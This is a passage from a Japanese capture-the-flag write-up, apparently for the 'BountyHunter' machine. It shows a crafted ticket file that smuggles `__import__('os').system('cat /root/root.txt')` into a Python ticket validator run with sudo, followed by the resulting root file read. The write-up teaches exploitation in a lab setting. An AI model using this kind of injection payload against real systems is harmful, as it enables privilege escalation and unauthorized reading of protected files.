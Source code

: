 改造したtamil.mdは下記の通り。

```
development@bountyhunter:~$ cat tamil.md
# Skytrain Inc
## Ticket to print("hey")
__Ticket Code:__
**11+0==11&__import__('os').system('cat /root/root.txt')
##Issued: 2021/04/06
#End Ticket
```

Pythonスクリプトを実行するとroot.txtを読むことができた。

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
tamil.md
Destination: print("hey")
【root.txtの内容】
Invalid ticket.
```
